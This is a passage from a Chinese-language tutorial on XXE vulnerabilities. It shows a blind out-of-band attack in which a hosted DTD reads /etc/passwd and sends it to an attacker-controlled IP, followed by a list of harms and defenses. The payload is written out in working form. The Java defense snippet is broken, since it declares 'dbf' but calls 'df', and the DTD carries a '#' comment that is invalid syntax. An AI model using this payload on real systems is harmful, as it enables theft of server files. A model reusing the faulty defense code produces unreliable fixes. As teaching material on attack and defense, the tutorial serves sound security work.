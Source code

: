 然后B会向C服务器请求（C需要提前起一个HTTP服务）
```
http://C的ip地址/test.dtd
```

就会将dtd加载到B的本地来执行。test.dtd的内容：
```xml-dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">    # 获取本地文件给攻击者
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://A的ip地址/test.php?con=%p1;'>">
%p2;
```
接着A只需要wireshark抓包查看请求结果。



## 0x05 XXE漏洞危害

- 读取本地敏感文件内容
- 对内网信息进行探测
- 可能导致命令执行
- 向服务器发起DDoS攻击



## 0x06 XXE漏洞防御

#### 1. XXE漏洞消亡原因

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。

#### 2. 防御措施

- 关闭外部实体引用功能（最简单直接，并且安全）

使用开发语言提供的禁用外部实体的方法：

PHP：
```php
libxml_disable_entity_loader(true);
```

JAVA：
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
df.setExpandEntityReferences(false);
```

Python：
```python
from lxml import etree
xmlData = etree.parse(xmlSource, etree.XMLParser(resolve_entities=False))
```

- 在服务器端进行白名单验证和过滤，如不能用白名单，可以用关键词过滤用户提交的XML数据

关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC。

- 及时修复或更新应用程序或底层操作系统使用的相关XML处理器和库

- 使用XSD验证等验证方法来验证上传的XML文件

